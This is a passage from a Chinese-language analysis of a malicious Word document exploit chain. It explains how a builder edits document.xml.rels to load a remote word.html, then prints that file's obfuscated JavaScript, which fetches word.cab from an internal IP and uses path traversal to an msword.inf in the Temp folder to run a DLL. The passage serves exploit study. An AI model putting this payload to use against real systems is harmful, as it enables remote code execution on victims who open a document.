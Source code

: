 注意到在第二步中，代码对 doc 文档中的`word/_rels/document.xml.rels`文件进行了更新，添加了`srv_url + '/word.html'`，这样在文档打开的时候，就会尝试连接服务器地址并打开 word.html 文件；

 

在第五步中，代码对 doc 文档会打开的 word.html 文件进行了更新，添加了 word.cab 的连接路径；

 

而 word.cab 文件又是从命令行中指定的 payload`test/calc.dll`，使用 lcab 工具生成的 cab 文件。

 

所以接下来我们要看一下 word.html 和 word.cab 文件又干了些什么。

2.2 HTML 文件
-----------

_注：我也是自己反混淆完之后才发现 lockedbyte 的 github 项目里面有 deobfuscate.py 文件和 deob.html 文件，/(ㄒ o ㄒ)/~~_

 

word.html 中包含一段混淆后的 javascript 代码，首先使用 notepad++ 中的插件进行一下美化：

```
var a0_0x127f = ['123', '365952KMsRQT', 'tiveX', '/Lo', './../../', 'contentDocument', 'ppD', 'Dat', 'close', 'Acti', 'removeChild', 'mlF', 'write', './A', 'ata/', 'ile', '../', 'body', 'setAttribute', '#version=5,0,0,0', 'ssi', 'iframe', '748708rfmUTk', 'documentElement', 'lFile', 'location', '159708hBVRtu', 'a/Lo', 'Script', 'document', 'call', 'contentWindow', 'emp', 'Document', 'Obj', 'prototype', 'lfi', 'bject', 'send', 'appendChild', 'Low/msword.inf', 'htmlfile', '115924pLbIpw', 'GET', 'p/msword.inf', '1109sMoXXX', './../A', 'htm', 'l/T', 'cal/', '1wzQpCO', 'ect', 'w/msword.inf', '522415dmiRUA', 'http://192.168.6.155/word.cab', '88320wWglcB', 'XMLHttpRequest', 'msword.inf', 'Act', 'D:edbc374c-5730-432a-b5b8-de94f0b57217', 'open', '');
    var _0x126e83 = _0xcf5a2[_0x2ee207(0xb5)](_0xf70c6e['Script'][_0x2ee207(0xb4)], 'ob' + 'je' + 'ct');
    _0x126e83[_0x2ee207(0xeb)]('co' + 'de' + 'ba' + 'se', _0x2511dc() + _0x2ee207(0xaa));
    var _0x487bfa = 'l';
    _0x126e83[_0x2ee207(0xeb)]('c' + 'la' + _0x2ee207(0xab) + 'd', 'CL' + 'SI' + _0x2ee207(0xd2)),
    _0x1ee31c[_0x2ee207(0xb5)](_0xf70c6e[_0x2ee207(0xb3)]['document']['body'], _0x126e83),
    _0xfed1ef[_0x2ee207(0xb3)][_0x2ee207(0xb0)] = '.' + _0xd7e33d + _0x371a71 + _0x487bfa + ':' + '123',
    _0xfed1ef[_0x2ee207(0xb3)]['location'] = '.' + _0xd7e33d + _0x371a71 + _0x487bfa + ':' + _0x2ee207(0xd9),
    _0xfed1ef[_0x2ee207(0xb3)][_0x2ee207(0xb0)] = '.' + _0xd7e33d + _0x371a71 + _0x487bfa + ':' + _0x2ee207(0xd9),
    _0xfed1ef[_0x2ee207(0xb3)][_0x2ee207(0xb0)] = '.' + _0xd7e33d + _0x371a71 + _0x487bfa + ':' + _0x2ee207(0xd9),
    _0xfed1ef[_0x2ee207(0xb3)][_0x2ee207(0xb0)] = '.' + _0xd7e33d + _0x371a71 + _0x487bfa + ':' + '123',
    _0xfed1ef[_0x2ee207(0xb3)][_0x2ee207(0xb0)] = '.' + _0xd7e33d + _0x371a71 + _0x487bfa + ':' + _0x2ee207(0xd9),
    _0xfed1ef['Script']['location'] = '.' + _0xd7e33d + _0x371a71 + _0x487bfa + ':' + _0x2ee207(0xd9),
    _0xfed1ef[_0x2ee207(0xb3)]['location'] = '.' + _0xd7e33d + _0x371a71 + _0x487bfa + ':' + _0x2ee207(0xd9),
    _0xfed1ef[_0x2ee207(0xb3)][_0x2ee207(0xb0)] = '.' + _0xd7e33d + _0x371a71 + _0x487bfa + ':' + '123',
    _0xfed1ef[_0x2ee207(0xb3)][_0x2ee207(0xb0)] = '.' + _0xd7e33d + _0x371a71 + _0x487bfa + ':' + '..' + '/.' + _0x2ee207(0xc5) + _0x2ee207(0xdf) + _0x2ee207(0xe7) + 'Lo' + _0x2ee207(0xc8) + 'T' + _0x2ee207(0xb7) + _0x2ee207(0xdc) + _0x2ee207(0xcb),
    _0x5f3191[_0x2ee207(0xb3)][_0x2ee207(0xb0)] = '.' + _0xd7e33d + _0x371a71 + _0x487bfa + ':.' + './' + '..' + '/.' + _0x2ee207(0xe6) + 'pp' + _0x2ee207(0xe0) + 'a/Lo' + 'ca' + _0x2ee207(0xc7) + 'em' + 'p/msword.inf',
    _0xafc795[_0x2ee207(0xb3)][_0x2ee207(0xb0)] = '.' + _0xd7e33d + _0x371a71 + _0x487bfa + ':' + '..' + _0x2ee207(0xd6) + '/.' + './../A' + _0x2ee207(0xdf) + _0x2ee207(0xe7) + 'Lo' + _0x2ee207(0xc8) + 'T' + _0x2ee207(0xb7) + _0x2ee207(0xdc) + 'w/msword.inf',
    _0x5a6d4b[_0x2ee207(0xb3)][_0x2ee207(0xb0)] = '.' + _0xd7e33d + _0x371a71 + _0x487bfa + ':.' + './' + _0x2ee207(0xe9) + '..' + '/.' + _0x2ee207(0xe6) + 'pp' + 'Dat' + _0x2ee207(0xb2) + 'ca' + 'l/T' + 'em' + _0x2ee207(0xc3),
```